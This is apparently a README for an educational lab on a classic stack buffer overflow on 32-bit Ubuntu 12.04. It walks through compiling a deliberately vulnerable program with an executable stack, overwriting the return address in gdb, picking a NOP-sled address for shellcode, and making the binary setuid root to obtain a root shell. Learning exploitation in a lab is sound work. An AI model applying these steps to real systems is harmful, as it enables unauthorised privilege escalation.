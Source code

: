 Basic buffer overflow example with shellcode and setuid for root shell.

Perform the below instructions  with a non root user (you will need sudo  
or root for some commands):

I've written and tested this code on a vm running: ubuntu 12.04.4 lts i686

1. Test ALSR is disabled:
   * See ../common/README.md on esp.c
2. Compile test vulnerable program: 
   * gcc -g -z execstack -o bo1 bo1.c
3. Test with no overflow: 
   * ./bo1 A
4. Test with overflow: 
   * ./bo1 $(cat e1)
   * This should segfault
5. Test we can overwrite return address value using gdb: 
   * cat e2
   * gdb ./bo1
   * break 10
   * r $(cat e2)
   * info registers
   * x/40x $esp 
   * The bottom of stack ($ebp) should contain 4321 (we can
     overwrite $eip !!!)
6. Run exploit and select NOP address to replace in exploit file using gdb:
   * cat e3
   * gdb ./bo1
   * break 10
   * r $(cat e3)
   * info registers
   * x/40x $esp
   * Select an address in the middle x90 (NOP)
7. Update exploit b3 python script with chosen address (variable eip)
8. Run exploit and get shell from gdb (no root since we run gdb as non root user)
    * gdb ./bo1
    * r $(cat e4) 
9. Setuid and run without debugger:
    * sudo chown root bo1
    * sudo chmod u+s bo1
    * gdb ./bo1 $(cat e4)
    * id (should be root) 
10. If exploit failed, it's because environment variables are on the stack and offset is wrong.  
Play with address in e4 with hexedit adding or removing 50 or 20 at a time until it works. A more 
resiliant method is to run gdb and non gdb exploits with an empty envionment like so:
    * env -i PWD="." SHELL="/bin/bash" SHLVL=0 gdb ./bo1 (remember unset env COLUMNS and unset env LINES)
    * env -i PWD="." SHELL="/bin/bash" SHLVL=0 ./vuln $(cat e4)
